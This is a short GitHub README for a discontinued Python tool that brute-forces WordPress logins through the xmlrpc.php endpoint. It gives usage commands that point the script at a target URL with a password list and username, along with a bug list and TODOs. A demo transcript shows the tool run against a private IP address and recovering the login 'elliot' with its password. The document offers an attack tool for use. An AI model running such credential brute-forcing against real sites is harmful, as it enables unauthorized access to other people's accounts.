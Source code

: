 <p align="center"><img src="https://i.imgur.com/K4aUmMo.png"></p>

<h4 align="center">An XMLRPC BruteForcer for Wordpress  - Inpired by (1N3@CrowdShield)</h4>

## Note - This project is discontinued. No more updates will be provided! Sorry!
> I switched to golang :-)

> Fork it/do whatever you want with it.

<p align="center">
  <a href="https://twitter.com/kavishgour"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://t.me/kavishgr"><b>Telegram</b></a>
  <span> - </span>
  <a href="https://kavishgr.github.io"><b>Blog</b></a>
</p>

| Available                            | in                                   |
|--------------------------------------|--------------------------------------|
| ![](https://i.imgur.com/1wJVDV5.png) | ![](https://i.imgur.com/z36xL8c.png) |

## Usage

```bash
python3 xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
python3 xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt ( >>in progess<<)
```
## Bugs

If you get an ```xml.etree.ElementTree.ParseError```:

* Did you forget to add 'xmlrpc' in the url ?
* Try to add or remove 'https' or 'www'.

## TODO

* Exception Handling for xml.etree.ElementTree.ParseError
* 'userlist' enumeration

## Demo

```bash
MacBook-Pro: kavish$ python3 xmlrpcbruteforce.py http://192.168.100.34/xmlrpc.php 10k-most-common.txt elliot

---------------Examining Target--------------------

[>] Target is vulnerable.

--=[Target: http://192.168.100.34/xmlrpc.php]=--

        	[...Bruteforcing...]
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--------------- BRUTEFORCE SUCCESSFULL  ---------------
--=[User found]=--
Login: elliot
Password: ER28-0652
--=[Exiting...]=--
```

